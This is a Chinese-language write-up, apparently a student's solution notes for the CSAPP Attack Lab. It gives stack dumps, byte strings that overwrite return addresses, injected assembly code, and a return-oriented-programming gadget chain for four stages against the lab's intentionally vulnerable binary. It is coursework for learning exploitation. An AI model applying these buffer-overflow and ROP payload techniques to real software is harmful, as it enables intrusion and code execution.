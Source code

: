 # CSAPP-LAB2
``attack``
通过objdump -d进行反汇编代码，通过gdb进行调试
## stage1
本题通过getbuf读取字符到栈上，从而修改返回地址
调用getbuf之前的栈为，00401976即是返回地址
```
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
我们通过输入字符串，将栈刷掉，使得返回地址为 004017c0，即为touch1的入口地址
```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00
```
getbuf返回之后的栈为
```
0x5561dc78:	0xf0c1c748	0x13004011	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x004017c0	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```

## stage2
这一题较上一题的不同是 在跳转到touch2之前需要将edi的值修改成cookie的值
如何做困扰我很久，后来参考了csdn的解答才有了思路，我们可以通过修改栈的值来使得返回时跳到另一个位置，通过这个机制，我们能跳到插入代码的位置，插入代码保存在哪里，当然最为保险的还是保存在栈上，另一个问题是如何修改edi之后继续跳转，解决方法还是类似，在栈上插入一条目标地址，然后使用ret即可，这两个操作也是包括在插入的代码中。
下面列出插入的代码
```
movl    $0x59b997fa,%edi
pushq   $0x4017ec  ## touch2函数的入口地址
ret
```
最初栈的返回地址需要是插入代码的起始地址

## stage3
这一题在上一题的基础上，加入了赋值字符串，我们需要将字符串保存到一个位置，然后将其赋值给edi，
字符串保存的位置是本题的关键，在这个上面我卡了一个多小时，一个核心就是在进行push和ret的时候$rsp会覆盖栈上原来的内容，因此我们需要将字符串保存到一个不会被覆盖的地方
经过测试0x5561dca8之前大约100多个字节都是不可靠的地址，它们都会被覆盖掉，因此我们最终将字符串保存到0x5561dcb0这个位置
```
movl    $0x5561dcb0,%edi
pushq   $0x4018fa
ret
```

之前都是通过代码插入来实现攻击，这种方法在rtarget程序这是行不通的，因为它
> 1. 栈的位置是随机的
> 2. 栈上的代码是不可执行的，即使是gdb都无法查看栈上的内容
以下两题我们使用跳转到现成的代码区（即gadget）来实现攻击
## stage4
在这一题中我们通过两个gadget来实现两条指令
```
popq $rax # 将栈中的cookie值pop到rax
mov $rax $rdi # 将rax的值赋给rdi
```
为啥不直接用popq $rdi，一开始我也很困惑，后来发现跟popq指令相关的只有0x58（即popq $rax），注意popq后面只能跟0x90(nop)或0xc3(ret)
最终填充的代码如下，需要注意的是$esp的值在ret或pop之后会增加，因此需要在后面添加填充代码
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 # 跳转到一个gadget
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # 跳转到另一个gadget
ec 17 40 00 00 00 00 00 # 跳转到touch2
```

## stage5
这次依旧偷个懒跳过，嘻嘻